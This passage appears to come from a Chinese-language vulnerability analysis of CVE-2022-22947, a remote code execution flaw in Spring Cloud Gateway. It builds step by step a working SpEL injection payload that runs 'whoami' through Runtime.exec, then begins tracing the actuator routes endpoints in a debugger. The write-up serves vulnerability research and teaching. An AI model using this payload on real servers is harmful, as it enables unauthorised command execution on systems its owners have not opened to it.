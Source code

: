 - `SpEL` 表达式约定放置在 `#{xxx}` 中的
- `SpEL` 表达式支持类型的使用，使用方法就是 `T(类的完整路径)`，如： `T(java.lang.Math).PI` 就可以引用 `PI` 的值

### payload 的成因

1. 构造 `Java` 代码

   - 最终要执行的命令

     ```java
     Process exec = Runtime.getRuntime().exec(new String[]{"whoami"});
     ```

   - 获取执行的结果流

     ```java
     InputStream stream = exec.getInputStream();
     ```

   - 使用 `StreamUtiles` 工具类将结果流转换成字节数组，再使用 `new String` 转换成字符串形式回显

     ```java
     String s = new String(StreamUtils.copyToByteArray(stream));
     ```

2. 整理 `Java` 代码，结合上面写到的 `SpEL` 表达式的使用方法，构造成 `SpEL` 表达式，形成最终 `payload`

   ```java
   #{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}
   ```

### payload 的解析与执行

1. `debug` 模式启动 `Spring Cloud Gateway` 服务端，打开 `debug` 选项卡，选中 `Autuator` 标签，点选左侧 `Show Library Mapping` （一个柱状图图标），然后再选中上方 `Mappings`， 可以看到服务端暴露的接口列表，包含刚用到的 `/actuator/gateway/routes/{id}`、 `/actuator/gateway/refresh` 等，右侧是与之对应的类和方法名。

   ![](./images/CVE-2022-22947-Spring%20Cloud%20Gateway%20RCE/payload%E8%A7%A3%E6%9E%90_01.png)
